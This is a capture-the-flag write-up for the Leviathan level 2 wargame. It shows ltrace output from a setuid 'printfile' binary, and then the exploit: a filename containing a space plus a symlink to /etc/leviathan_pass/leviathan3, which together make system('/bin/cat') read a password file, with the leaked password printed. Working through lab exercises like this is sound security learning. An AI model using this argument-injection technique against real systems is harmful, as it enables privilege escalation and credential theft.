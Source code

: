     leviathan2@gibson:~$ ls -l
    total 16
    -r-sr-x--- 1 leviathan3 leviathan2 15068 Jul 17 15:57 printfile # [1]
    leviathan2@gibson:~$ mkdir /tmp/test123 && touch /tmp/test123/file.txt 
    leviathan2@gibson:~$ echo "lala" > /tmp/test123/file.txt
    leviathan2@gibson:~$ ./printfile /tmp/test123/file.txt 
    lala

After using `ltrace` to check what library calls are used inside this binary,
one can see an interesting function used.

    leviathan2@gibson:~$ ltrace ./printfile /tmp/test123/file.txt 
    __libc_start_main(0x80490ed, 2, 0xffffd364, 0 <unfinished ...>
    access("/tmp/test123/file.txt", 4)                                                                         = 0
    snprintf("/bin/cat /tmp/test123/file.txt", 511, "/bin/cat %s", "/tmp/test123/file.txt")                    = 30
    geteuid()                                                                                                  = 12002
    geteuid()                                                                                                  = 12002
    setreuid(12002, 12002)                                                                                     = 0
    system("/bin/cat /tmp/test123/file.txt"lala
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                     = 0
    +++ exited (status 0) +++

`access()` function call checks whether the calling process can access the file
pathname or not. But, the interesting part is that at [1] the binary's owner is
`leviathan3`. Also, `/bin/cat` is used to print the contents of the file provided,
so if we specify to `printfile` an argument file with spaces in its name, then 
`/bin/cat` will think that the argument has 2 files.

After creating a dynamic link for the password, dereferenced by the second part of
the file name provided to the binary, 

    leviathan2@gibson:/tmp/test123$ ls -l
    total 4
    -rw-rw-r-- 1 leviathan2 leviathan2 5 Jul 22 11:18 file.txt
    leviathan2@gibson:/tmp/test123$ touch file.txt\ exploit
    leviathan2@gibson:/tmp/test123$ ls -la
    total 19096
    drwxrwxr-x    2 leviathan2 leviathan2     4096 Jul 22 11:28 .
    drwxrwx-wt 1022 root       root       19537920 Jul 22 11:28 ..
    -rw-rw-r--    1 leviathan2 leviathan2        5 Jul 22 11:18 file.txt
    -rw-rw-r--    1 leviathan2 leviathan2        0 Jul 22 11:28 file.txt exploit
    leviathan2@gibson:/tmp/test123$ ln -s /etc/leviathan_pass/leviathan3 /tmp/test123/exploit

and rerunning the script with argument to be the file with spaces in its name, 

    leviathan2@gibson:/tmp/test123$ ~/printfile "file.txt exploit"
    lala
    f0n8h2iWLP


[REF1]: https://www.rapidtables.com/convert/number/binary-to-string.html